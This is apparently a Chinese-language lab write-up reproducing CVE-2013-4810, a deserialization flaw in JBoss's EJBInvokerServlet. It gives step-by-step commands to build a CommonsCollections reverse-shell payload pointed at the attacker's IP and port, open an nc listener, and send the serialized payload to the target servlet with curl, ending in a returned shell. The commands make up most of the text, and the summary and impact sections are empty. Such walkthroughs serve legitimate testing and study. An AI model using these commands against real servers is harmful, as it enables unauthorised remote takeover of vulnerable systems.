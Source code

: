 # CVE-2013-4810 JBoss EJBInvokerServle 反序列化漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入`http://172.26.1.151:8080/invoker/EJBInvokerServle` 返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈~），说明接口开发，存在反序列化漏洞

![](images/15890724213983.png)


进入kali攻击机，下载反序列化工具:https://github.com/ianxtianxt/CVE-2015-7501/

解压完，进入到这个工具目录 ,执行命令:


```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

继续执行命令:


```java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)
```

新界面开启nc准备接收反弹过来的shell。命令:`nc -lvnp 4444`

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:


```bash
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![](images/15890724616552.png)


打开nc界面，发现shell已经弹回来了

![](images/15890724678658.png)


